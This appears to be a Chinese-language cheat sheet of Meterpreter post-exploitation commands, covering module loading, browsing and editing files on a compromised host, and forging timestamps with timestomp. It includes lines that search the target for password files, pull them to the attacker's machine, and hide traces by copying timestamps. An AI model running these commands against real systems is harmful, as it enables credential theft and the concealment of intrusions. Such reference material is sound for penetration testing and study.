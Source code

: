 加载模块

```
load -l             \\查看可以加载的所有模块
```


# 文件系统命令

## 基本文件系统命令

```
getwd 或者pwd # 查看当前工作目录  
```
```
ls
```
```
cd
```
```
search -f *pass*       # 搜索文件  -h查看帮助
```
```
cat c:\\lltest\\lltestpasswd.txt  # 查看文件内容
```
```
upload /tmp/hack.txt C:\\lltest  # 上传文件到目标机上
```
```
download c:\\lltest\\lltestpasswd.txt /tmp/ # 下载文件到本机上
```
```
edit c:\\1.txt #编辑或创建文件  没有的话，会新建文件
```
```
rm C:\\lltest\\hack.txt
```
```
mkdir lltest2  #只能在当前目录下创建文件夹
```
```
rmdir lltest2  #只能删除当前目录下文件夹
```
```
getlwd   或者 lpwd   #操作攻击者主机 查看当前目录
```
```
lcd /tmp   #操作攻击者主机 切换目录
```

## timestomp伪造时间戳

```
timestomp C:// -h   #查看帮助
```
```
timestomp -v C://2.txt   #查看时间戳
```
```
timestomp C://2.txt -f C://1.txt #将1.txt的时间戳复制给2.txt
```
